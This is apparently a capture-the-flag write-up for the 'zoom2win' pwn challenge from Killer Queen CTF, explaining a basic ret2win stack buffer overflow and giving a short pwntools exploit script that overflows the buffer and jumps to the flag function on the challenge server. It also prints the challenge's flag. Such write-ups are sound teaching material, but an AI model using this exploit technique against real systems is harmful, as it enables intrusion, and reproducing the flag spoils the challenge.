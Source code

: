 ```yaml
---
layout: writeup
title: zoom2win
ctf: Killer Queen CTF
points: 214
solves: 184
tags: 
    - pwn
date: 2021-11-01
description: |-
    What would CTFs be without our favorite ret2win.
flag: kqctf{did_you_zoom_the_basic_buffer_overflow_?}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

This is a basic ret2win challenge. We have a buffer overflow and find the size to be 40 before getting access to RSP. We find the address of the flag function with

    $ objdump -d zoom2win | grep flag

This returns

    $ 0000000000401196 <flag>:

So we can basically send 40 `A`s followed by this address. This works locally, but not remotely. This is due to stack alignment, so we need an extra return instruction first. We can run `ropper -f zoom2win` and find a `ret` gadget to only insert an extra return. This will align the stack but not change what we are doing. The following Python script gets the flag from the server:

```python
from pwn import *

p = remote("143.198.184.186", 5003)
p.recvline()

padding = b"A" * 32
rbp = b"B" * 8
ret = p64(0x40101a)
flag_address = p64(0x401196)
payload = padding + rbp + ret + flag_address

p.sendline(payload)
p.interactive()
```